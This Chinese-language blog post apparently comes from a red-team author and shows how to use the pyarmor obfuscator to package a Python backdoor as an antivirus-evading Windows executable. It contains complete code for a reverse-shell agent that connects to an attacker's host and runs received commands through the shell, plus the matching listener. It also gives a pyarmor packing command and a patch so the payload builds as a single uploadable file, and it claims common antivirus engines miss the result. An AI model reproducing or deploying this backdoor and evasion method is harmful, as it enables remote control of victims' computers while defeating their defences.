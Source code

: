 # 一个有趣的python混淆库

## [pyarmor · PyPI](https://pypi.org/project/pyarmor/)


前几天由于红队要准备一些东西，找不到免杀的远控，一时也没有思路，想到以前有人用shellcode`<python>` 打包为`exe`，可以免杀的效果，但是常规shellcode直接打包已经被列入规则库，我想了想从python语言角度上混淆看来下效果，基本常见免杀引擎都可以，满足需求。

`pyarmor`打包混淆原理，其收费版本混淆无规则，开源免费版本硬编码。
Pyarmor 加密和保护 Python 源代码的方法和机制 [pyarmor/protect-python-scripts-by-pyarmor.md at master · dashingsoft/pyarmor · GitHub](https://github.com/dashingsoft/pyarmor/blob/master/docs/zh-cn/protect-python-scripts-by-pyarmor.md)

## 准备工作

一个python tcp服务端和客户端，利用混淆库 打包成windwos exe。

### server.py (tcp后门例子用的是t00ls的帖子)

``` python 
# -*- coding: utf-8 -*-
import socket,subprocess as sp,sys                    # 导入subprocess，socket模块

# 1）监听信息
host = sys.argv[1]                                   # 攻击者地址，通常留空''
port = int(sys.argv[2])                              # 攻击者主机端口

# 2）套接字部分
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) # 安装套接字
s.bind((host,port))                                  # 绑定套接字
s.listen(100)                                        # 最大连接数:100
conn,addr  = s.accept()                              # 接收客户端连接

# 3）输出连接信息
print "[+] Conection Established from: %s" % (str(addr[0]))
                                                     # 打印攻击者的连接信息
# 4）接收输出
while 1:                                            # 运行死循环初始化反向的连接
    command = raw_input("#> ")                      # 服务器输入
    # 5）if判断-1
    if command != "exit()":                         # 如果命令不是exit()，那就继续执行
        # 6）if判断-2
        if command == "": continue                  # 命令如果为空，循环这个函数
        # 7）发送、接收命令
        conn.send(command)                          # 发送命令到客户端
        result = conn.recv(1024)                    # 接收并输出
        # 8） 处理接收结果
        total_size = long(result[:16])              # 获取返回数据的大小,取出前16位的值
        result = result[16:]                        # 接收数据的结果，取16位之后的值
        # 9） 处理数据
        while total_size > len(result):             # 循环函数
            data = conn.recv(1024)                  # 每次接收1024的数据，如果发送的数据大于现在接收的数据
            result += data                          # 循环接收并且拼接起来
        # 10）打印结果过滤换行符
        print result.rstrip("\n")                   # 过滤掉换行符
    else:
        conn.send("exit()")                         # 发送客户端关闭的消息
        print "[+] shell Going Down"                # 本地退出提示
        break
# 11）出现任何故障关闭套接字
s.close() 
```

### agent.py

``` python 

import socket,subprocess as sp,sys                    


host = sys.argv[1]                                   
port = int(sys.argv[2])                          


conn = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
conn.connect((host,port))

while 1:
    command = str(conn.recv(1024))

    if command != "exit()":
        sh = sp.Popen(command,shell=True,
                      stdout=sp.PIPE,
                      stderr=sp.PIPE,
                      stdin=sp.PIPE)

        out,err = sh.communicate()   

        result = str(out) + str(err)

        length = str(len(result)).zfill(16)

        conn.send(length + result)
    else:
        break


conn.close()
```
### pyarmor 打包exe

``` bash
pyarmor pack -t PyInstaller project/src/agent.py
```

>常规情况是直接打包为一个exe文件加一些别的dll库文件，而我们正常渗透是不可能上传这些东西上去的，因此分析了下代码，修改pyarmor某处代码，这样打包生成一个文件。
>pyinstaller 打包成一个文件的原理也不是直接所有打包，他运行时需要释放一个缓存目录，运行程序，因此部分测试时生成的exe文件第一次运行没有成功的也是这个原因。


### 免杀效果


在测试的情况下，尝试使用webshell和正常运行均没有影响，且常见杀毒引擎也是不会拦截的
![78989ac9.png](https://raw.githubusercontent.com/LiodAir/images/master/blog/78989ac9.png)

webshell运行情况：
![6c7318da.png](https://raw.githubusercontent.com/LiodAir/images/master/blog/6c7318da.png)

杀毒引擎查杀情况（`这个IKARUS正常python输出helloworld文件也爆，可能对这种混淆方式做了一些处理`）：
![ef0f6c18.png](https://raw.githubusercontent.com/LiodAir/images/master/blog/ef0f6c18.png)



### 使用

>修改pyarmor库某处代码 类似`/usr/local/lib/python3.7/site-packages/pyarmor/packer.py`  187行 修改为 
```bash
options = ['-F', '-y', '--specpath', project]
```
![ddcb3a6e.png](https://raw.githubusercontent.com/LiodAir/images/master/blog/ddcb3a6e.png)


``` bash
pyarmor pack -t PyInstaller project/src/agent.py

更多使用方法：

```
[pyarmor/README-ZH.md at master · dashingsoft/pyarmor · GitHub](https://github.com/dashingsoft/pyarmor/blob/master/src/examples/README-ZH.md)


## 引用

[https://www.t00ls.net/articles-43337.html](https://www.t00ls.net/articles-43337.html)




